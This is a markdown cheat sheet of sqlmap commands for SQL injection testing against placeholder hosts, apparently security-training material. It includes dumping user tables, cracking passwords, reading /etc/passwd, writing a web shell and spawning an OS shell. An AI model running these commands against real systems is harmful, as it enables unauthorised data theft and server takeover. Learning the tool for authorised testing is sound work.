 |**Command**|**Description**|
|---|---|
|`sqlmap -h`|View the basic help menu|
|`sqlmap -hh`|View the advanced help menu|
|`sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`|Run `SQLMap` without asking for user input|
|`sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`|`SQLMap` with POST request|
|`sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`|POST request specifying an injection point with an asterisk|
|`sqlmap -r req.txt`|Passing an HTTP request file to `SQLMap`|
|`sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`|Specifying a cookie header|
|`sqlmap -u www.target.com --data='id=1' --method PUT`|Specifying a PUT request|
|`sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`|Store traffic to an output file|
|`sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch`|Specify verbosity level|
|`sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`|Specifying a prefix or suffix|
|`sqlmap -u www.example.com/?id=1 -v 3 --level=5`|Specifying the level and risk|
|`sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`|Basic DB enumeration|
|`sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`|Table enumeration|
|`sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`|Table/row enumeration|
|`sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"`|Conditional enumeration|
|`sqlmap -u "http://www.example.com/?id=1" --schema`|Database schema enumeration|
|`sqlmap -u "http://www.example.com/?id=1" --search -T user`|Searching for data|
|`sqlmap -u "http://www.example.com/?id=1" --passwords --batch`|Password enumeration and cracking|
|`sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"`|Anti-CSRF token bypass|
|`sqlmap --list-tampers`|List all tamper scripts|
|`sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`|Check for DBA privileges|
|`sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`|Reading a local file|
|`sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"`|Writing a file|
|`sqlmap -u "http://www.example.com/?id=1" --os-shell`|Spawning an OS shell|